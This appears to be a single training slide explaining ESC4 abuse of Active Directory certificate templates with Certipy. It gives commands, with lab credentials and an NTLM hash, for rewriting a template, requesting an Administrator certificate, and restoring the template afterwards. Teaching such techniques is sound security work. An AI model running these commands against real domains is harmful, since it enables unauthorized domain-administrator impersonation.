

# ESC4 - Abuse
By default, Certipy will overwrite the configuration to make it vulnerable to ESC1:
certipy template ‘EvilCorp.local/TheHorseman:EvilCorp3.@EVILDC1.EvilCorp.local ' -hashes :fc525c9683e8fe067095ba2ddc971889 -template ‘Vulnerable ESC4' -save-old
Can specify the -save-old parameter to save the old configuration, which is useful for restoring the configuration afterwards.
The certificate template is now vulnerable to the ESC1 technique.
Therefore, we can now request a certificate based on the ESC4 template and specify an arbitrary SAN with the -alt parameter.
certipy req ‘EvilCorp.local/TheHorseman:EvilCorp3.@EVILDC1.EvilCorp.local ' -ca 'EvilCorp-EVILDC1-CA' -template ‘Vulnerable ESC4' -alt ‘Administrator@EvilCorp.local‘
To restore the old configuration, you can specify the path to the saved configuration with the -configuration parameter:
certipy template ‘EvilCorp.local/TheHorseman:EvilCorp3.@EVILDC1.EvilCorp.local ' -hashes :fc525c9683e8fe067095ba2ddc971889 -template ‘Vulnerable ESC4' -configuration ESC4.json